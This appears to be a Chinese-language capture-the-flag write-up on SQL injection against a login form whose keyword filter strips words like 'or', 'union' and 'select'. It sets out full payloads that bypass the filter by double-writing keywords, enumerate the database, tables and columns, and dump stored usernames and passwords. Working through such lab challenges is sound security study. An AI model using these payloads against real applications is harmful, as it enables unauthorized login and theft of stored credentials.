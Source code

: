 当输入`?username=admin&password=admin') or true --+`时
回显`near ') true '' at line 1`
**or没了！**
应该是被过滤了，用**双写绕过**
`?username=admin&password=admin' oorr true --+`成功登录
注入：`?username=admin&password=admin' uniounionn seleselectct 1,2,3 --+`
![[Pasted image 20250320192232.png]]
2和3处有回显
将2改成`database()`查出库名为geek

注入：`?username=admin&password=admin' uniounionn seleselectct 1,2,group_concat(table_name) frofromm infoorrmation_schema.tables whewherere table_schema=database() --`
必须要回显在第3位，在第二位会报错，不知道为什么
查出表名为`b4bsql,geekuser`，第一个应该比较有用

注入：`?username=admin&password=admin' uniounionn seleselectct 1,2,group_concat(column_name) frofromm infoorrmation_schema.columns whewherere table_schema=database() anandd table_name='b4bsql' --+`
查出字段名为`id,username,password`

注入`?username=admin&password=admin' uniounionn seleselectct 1,2,group_concat(id,'@',username,'@',passwoorrd) frofromm b4bsql --+`即可